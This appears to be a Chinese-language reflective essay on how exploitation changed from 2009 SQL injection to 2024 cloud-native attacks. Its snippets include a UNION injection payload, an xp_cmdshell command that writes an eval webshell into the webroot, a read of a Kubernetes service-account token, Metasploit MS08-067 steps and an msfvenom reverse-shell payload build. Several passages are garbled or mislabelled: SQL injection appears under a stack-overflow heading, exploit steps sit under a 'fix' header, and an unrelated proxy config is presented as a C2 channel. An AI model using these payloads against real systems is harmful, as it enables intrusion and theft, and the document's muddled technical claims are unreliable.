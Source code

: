 # 漏洞利用十五年演进录：从SQL注入到云原生渗透

## 一、栈溢出时代的余晖（2009）

2009年的数据库世界像座不设防的城堡。某个闷热的午后，我蹲坐在屏幕前，当这段代码在命令行跃出时，窗外的蝉鸣仿佛都屏住了呼吸：

``` python
payload = "' UNION SELECT null,@@version,null -- "
response = requests.get(url, params={"id": payload})
```

那时的安全防线如同年久失修的堤坝，联合查询注入轻松撕裂MSSQL的防线。`xp_cmdshell`是每个渗透测试者的万能钥匙：

``` sql
EXEC sp_configure 'show advanced options',1;RECONFIGURE;
```

用`xp_dirtree`遍历出web目录时，指尖颤抖着敲下写入webshell的命令。那转义符的舞蹈至今清晰：

``` python
webshell_payload = "1';EXEC master..xp_cmdshell 'echo ^<^%^@Page Language=^"JScript^"%^>^<^%eval(Request^("cc^"))%^> > C:\\inetpub\\wwwroot\\shell.aspx' --"
```

## 二、云端的量子战（2024）

十五载光阴流转，攻击者开始在与云原生架构的量子纠缠中寻找破绽。某个监控室的红外警报声中，这样的代码正在容器集群里游走：

``` python
iam_token = compromised_pod.exec_command(
    "cat /var/run/secrets/kubernetes.io/serviceaccount/token"
)
```

现代攻击链已演变成精密的量子隧穿实验。当看到APT组织用kubectl-proxy日志作C2信道时，彷佛目睹《攻壳机动队》的电子脑幽灵：

``` yaml
# envoy-filter.yaml
filterChains:
- filters:
  - name: envoy.filters.network.http_connection_manager
    typedConfig:
      '@type': type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager
      statPrefix: ingress_http
```

## 三、技术演进的螺旋阶梯

当整理旧书时掉落的MS08-067光盘，与邮箱里Chrome V8类型混淆漏洞报告形成时空对照：

``` bash
# Metasploit模块 vs 现代沙箱逃逸
use exploit/windows/smb/ms08_067_netapi
set TARGET 3
exploit

# 浏览器逃逸检测
if (MAC.startsWith("00:1C:42")) || (checkRegKey("VBOX__")):
    exit(1)
```

内核态与用户态的边界在eBPF技术中重新定义，当年手工构造的TCP分段攻击，如今在io_uring中升维：

``` c
// 现代高性能扫描器核心
struct io_uring_sqe *sqe;
io_uring_prep_send(sqe, fd, bufs[i], len, 0);
io_uring_submit(&ring);
```

## 四、技术附录

### 漏洞利用演进对比

| 维度         | 2009典型攻击链   | 2024云原生攻击链       |
|--------------|------------------|------------------------|
| **入口点**   | URL参数注入      | ServiceAccount配置错误 |
| **提权方式** | xp_cmdshell执行  | eBPF程序注入内核       |
| **横向移动** | 数据库链接服务器 | 服务网格Sidecar劫持    |
| **持久化**   | 启动项写入       | 恶意CRD资源部署        |

### 关键技术细节

1.  **MS08-067漏洞修正**

    -   触发函数：NetpwPathCanonicalize
    -   利用要求：通过SMB 445端口发送特制RPC请求

    ``` bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip -f exe > payload.exe
    ```

2.  **QUIC协议优势**

    -   0-RTT连接恢复：相比HTTP/2节省2个RTT
    -   连接迁移：通过CID机制保持会话持续

3.  **io_uring性能优化**

    ``` c
    struct io_uring_params params = {0};
    params.flags |= IORING_SETUP_SQPOLL;
    io_uring_queue_init_params(4096, &ring, &params);
    ```

站在2025年的安全瞭望塔回望，那些曾让我们欢呼的栈溢出技巧，已化作云原生攻防体系的基石坐标。技术长河奔涌向前，唯攻防博弈永恒如新——当基于io_uring的扫描器突破百万QPS时，那些用nmap扫描C类网段的记忆，在IORING_OP_SENDMSG中逐渐化为数字尘埃。

所谓技术传承，不过是把push ebp的浪漫封装成Wasm字节码的安全边界。当新生代讨论容器逃逸的CAP_SYS_ADMIN时，我们记忆里的栈指针偏移，正成为他们构建云原生攻防体系的基石坐标。这让我想起《银翼杀手》中的台词："所有瞬间都将湮没在时间的洪流里，就像泪水消失在雨中。"
